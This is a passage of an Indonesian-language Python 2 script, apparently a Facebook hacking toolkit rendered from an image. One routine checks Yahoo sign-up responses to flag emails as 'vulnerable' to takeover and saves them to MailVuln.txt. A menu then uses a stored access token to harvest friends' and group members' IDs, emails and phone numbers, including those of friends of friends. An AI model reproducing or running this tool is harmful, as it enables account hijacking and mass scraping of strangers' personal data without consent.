             jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
            try:
                pek = jok.search(klik).group()
            except:
                print '\x1b[1;91m ' + mail
                continue

            if '"messages.ERROR_INVALID_USERNAME">' in pek:
                save.write(mail + '\n')
                print '\x1b[1;92m ' + mail
            else:
                print '\x1b[1;91m ' + mail

    print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'
    print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'
    save.close()
    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
    menu_yahoo()


def grab():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;37;40m1. Ambil ID teman'
    print '\x1b[1;37;40m2. Ambil ID teman dari teman'
    print '\x1b[1;37;40m3. Ambil ID member GRUP'
    print '\x1b[1;37;40m4. Ambil Email teman'
    print '\x1b[1;37;40m5. Ambil Email teman dari teman'
    print '\x1b[1;37;40m6. Ambil No HP teman'
    print '\x1b[1;37;40m7. Ambil No HP teman dari teman'
    print '\x1b[1;31;40m0. Kembali'
    print
    grab_pilih()


def grab_pilih():
    cuih = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')
    if cuih == '':
        print '\x1b[1;91m[!] Jangan kosong'
        grab_pilih()
    else:
        if cuih == '1':
            id_teman()
        else:
            if cuih == '2':
                idfrom_teman()
            else:
                if cuih == '3':
                    id_member_grup()
                else:
                    if cuih == '4':
                        email()
                    else:
                        if cuih == '5':
                            emailfrom_teman()
                        else:
                            if cuih == '6':